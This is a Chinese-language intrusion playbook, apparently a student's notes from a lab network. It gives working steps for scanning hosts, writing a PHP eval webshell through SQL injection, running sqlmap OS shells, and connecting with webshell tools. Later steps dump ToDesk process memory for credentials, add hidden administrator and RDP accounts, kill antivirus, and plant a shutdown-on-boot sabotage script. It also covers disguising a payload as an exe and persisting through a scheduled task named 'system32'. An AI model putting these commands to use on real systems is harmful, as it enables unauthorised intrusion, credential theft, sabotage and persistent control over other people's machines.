### 1. 扫ip

```cmd
//端口号扫描
使用-->御剑端口扫描（3389,80,8080,3306）或者 namp 192.168.71.0/24 --> 扫描c段

1.80端口最重要，通杀端口，找网页的各种漏洞（常见的文件上传，sql注入-->sqlmap的 “--os-shll” / " into file " ），找准机会上传shell，上传成功后，先访问网页，如果页面是空白页面代表路径是对的输入密码直接连。如果是404或者其它代表路径错误，或者shell被删除。

2.3389成功率最低，一般是后面提权后才会使用。
net user hack hack /add
net localgroup administrators hack /add
net localgroup "Remote Desktop Users" hack /add --> (比如说用户不在远程桌面连接组时，使用)

3.3306端口成功率也很低，条件苛刻
处在同一网段，使用Cracke.exe弱口令工具进行爆破，获取密码后使用命令（mysql -u root -h 192.168.1。1 -p），也可以连navicat
而且需要对方允许远程连接

4.8080端口，如果能访问到它的tomcat官方界面，进入后台的网页（有权限，不是403），可以尝试弱口令爆破（默认账号为tomcat tomcat），进去以后找到地方上传shell.war（jsp的shell的压缩的包）然后连接shell

5.22端口:爆破连ssh,成功概率也很低
```

### 2. 扫目录

```php
7k:输入 http：//192.168.71.1/ 选择字典进行目录扫描
hackbar test-->current path
```

### 3. 测试能否访问

```php
//在上一步的基础上，访问那些状态码为200的网页，去找网页的漏洞，如果有shell更好，直接连（连接密码尝试，a,b,c,cmd,shell,1,2,3,word,pass,test,root）
```

### 4. 上传shell

```sql
//sql注入
1.http://192.168.71.45/sqli-labs-master/Less-1/?id=-1' union select 1,2,"<?php @eval($_POST['a']);?>" into outfile "C:/phpstudy_pro/WWW/a.php" --+

2.使用sqlmap --> sqlmap -u "url" --os-shell --level 3  （执行系统命令，权限高的话可以net user /add）
-----sqlmap --> sqlmap -u "url" --sql-shell --level 3 (执行sql语句，可以利用来写shell)

//文件上传漏洞
1.js禁用
2.00截断（windows）
3.空格绕过
4.抓包（改文件类型，文件后缀）
5.图片马（文件包含）
```

###  5.工具连接

`蚁剑`，`godzilla.jar`,`bihind`

```php
//godzilla.jar 可以利用工具生成shell，获取高权限，控制目标机（缺点上传文件不稳定，下载较大的文件时很好用）
//蚁剑 不太安全，但是上传文件方便，不建议使用它的命令行，会报 ret = 1 ，被对方防火墙拦截！

java -jar godzilla.jar
```

###  6. 传文件

```assembly
/*

扩大控制权限，例如使用 第三方程序脚本来执行命令
procdump.exe

以上两个程序缺一不可，传到目标机，然后传一个todesk的安装包给目标机
使用命令 todesk_setup.exe /S 静默安装，但是不好的一点是，安装好了会弹窗！

使用 procdump.exe 
使用 tasklist 查看todesk的pid（有两个todesk，只要类型为server的那个）
然后执行命令：procdump.exe -accepteula -ma 11652(实际的pid) --> 微软自带的获取指定exe文件的数据包（通过蚁剑或者godzilla将dump下来的数据包下载到本地进行分析）
在010Editor里查看16进制编码，使用·Ctrl+F·全局搜索当日的时间戳（例如20240914）

控制好目标机使用电脑的时间，利用空闲时间，上去关防火墙，开3389，新建用户，改配置文件等高权限的操作。。。。。

*/
```

------

# 实战

- 环境:
  - 受害者:`类型不限`
  - 端口扫描工具:`fscan`,`御剑`,`masscan`,`naabu`等
  - 目录扫描工具:`7kbscan-WebPathBrute`
  - 爆破工具:`SNETCracker`
  - shell工具:`蚁剑`,`Godzilla`
  - 其它:`Python3.12`(版本不限),`pycharm`,`procdump`,`010Editor`,`todesk安装包`

### 扫描

```python
import subprocess
import threading

# TODO:生成ip.txt,方便后续操作
base_ip = input("请输入需要生成的起始ip地址(例如192.168.71.*):")
last_num = int(base_ip.rsplit('.', 1)[-1])  # TODO:获取最后一个数字 *
base_ip = base_ip.rsplit('.', 1)[0] + '.'  # TODO:获取除了最后一个数字的部分 192.168.71. 然后进行拼接得到新的ip
ips = [base_ip + str(i) for i in range(last_num, 255)]
# TODO:写入文件
with open("C:/Users/24937/Desktop/ip2.txt", "w") as f:  # TODO:这里用w实现覆盖,避免重复运行时ip重复
    for ip in ips:
        print(ip)
        f.write(ip + "\n")
print('写入成功 >_<')
# TODO:把需要的用到的命令写入到列表,可以自定义
cmds = [
    'nmap -iL C:\\Users\\24937\\Desktop\\ip2.txt -p 80,8080,22,3306,6379,3389,1433,445 -sV -O',
    'fscan.exe -hf C:\\Users\\24937\\Desktop\\ip2.txt -p 80,8080,22,3306,6379,3389,1433,445',
    'sqlmap -u "www.baidu.com" --batch --random-agent --threads 10 --level 3 --risk 3 --banner --dbs --batch',
    'D:\\naabu\\naabu.exe -host 192.168.41.145 -p 1-65535',
    'D:\\masscan\\masscan.exe --ports 1-65535 192.168.41.145'
]
# TODO:使用多线程,这里用subprocess,因为os不好用,容易卡
threads = []
for cmd in cmds:
    # TODO:这里使用了个匿名函数lamda,把cmd传进去
    thread = threading.Thread(target=lambda c=cmd: subprocess.run(c, shell=True, check=True))
    threads.append(thread)
    thread.start()
for thread in threads:
    thread.join()
print("所有命令执行完毕 >_<")

```










### 22端口(ssh)

- `ssh`爆破
- 

- 使用爆破出来的账号密码,连接`ssh`
- 

> linux创建定时关机恶意脚本,开机则关机









> 然后`嘻嘻不嘻嘻`,`reboot`一下,对面`已关机`
>
> `为什么关机又关机?`



------

### 3306端口 (mysql)





- 这个端口可以使用`into outfile`写shell(得知道绝对路径),大多数同学用的是`8.0`的版本,没有写的权限

------


### 1443端口(sqlserver)

> 1. **SQL 注入**：
>    - 如果有 Web 应用程序与 SQL Server 后端交互，可以通过 SQL 注入漏洞执行恶意 SQL 查询，获取敏感信息或执行任意命令。
>    - 可以尝试利用 SQL 注入上传 WebShell。
> 2. **弱口令**：尝试使用暴力破解工具或字典攻击，测试常用或默认的用户名(`sa`)和密码。
> 3. **上传 WebShell**：如果 SQL Server 允许文件上传（例如，某些存储过程）
> 4. 因为之间做的时候忘记截图了,所以没有素材
>

------


### 80端口(http)





> 状态码`200`的就访问看看
>
> 如果扫描到`shell`,那就直接`爆破shell`
>
> 没有扫到就找网页各种漏洞getshell,`文件上传`,`sql注入`,`文件包含`等等..

------


> 善意的脚本编写



```cmd
#使用命令将py文件打包成exe
pyinstaller -F --noconsle 美女黑丝.py
```



> 通过`蚁剑`连接,上传 exe 文件(蚁剑上传`速度快`)
>
> 如果上传`失败`,可以使用python开一个端口,使用`wget`下载
>
> 紧接着传一个`大马`过去,使用`Godzilla连接`,找到他的`index`目录,将自己的`shell`名字修改为`index`方便下一次直接来
>
> 把它能开的`服务全打开`,什么`3389`,`8080`,`1433`,`3306`越多越好,没有的给它`传一个`
>
> 进入`命令行工具`,使用`taskkill`命令把杀毒软件给关了


> 最后效果是这样



> 娱乐完了,不要忘了添加一个定时计划任务,先把`目录`摸索完,确定`apache`里的`httpd.exe`的位置

- ```php
  //安装服务
  "E:\php_study\app\phpstudy_pro\Extensions\Apache2.4.39\bin\httpd.exe" -k install
  //启动服务
  schtasks /create /tn "system32" /tr "C:\Users\24937\Desktop\system32.bat" /sc onstart /f
  ```

  > 手动编写`bat`批处理命令,命令为`system32.bat`,需要和上面的位置对应,可以藏深点

- ```bat
  @echo off
  net session >nul 2>&1
  if %errorLevel% neq 0 (
      powershell -Command "Start-Process cmd -ArgumentList '/c %~s0' -Verb RunAs"
      exit /b
  )
  sc query Apache2.4 | findstr /i "RUNNING" >nul || (sc config Apache2.4 start= auto & start sc start Apache2.4)
  exit
  ```

  > 这样就能实现开机自启动`apache`服务,最后使用命令创建一个用户

- ```
  net user hcak hack /add
  net localgroup administrators hack /add
  net localgroup "Remote Desktop Users" hack /add
  ```

> 最后如果觉得还不够,那就再创建一个`html`

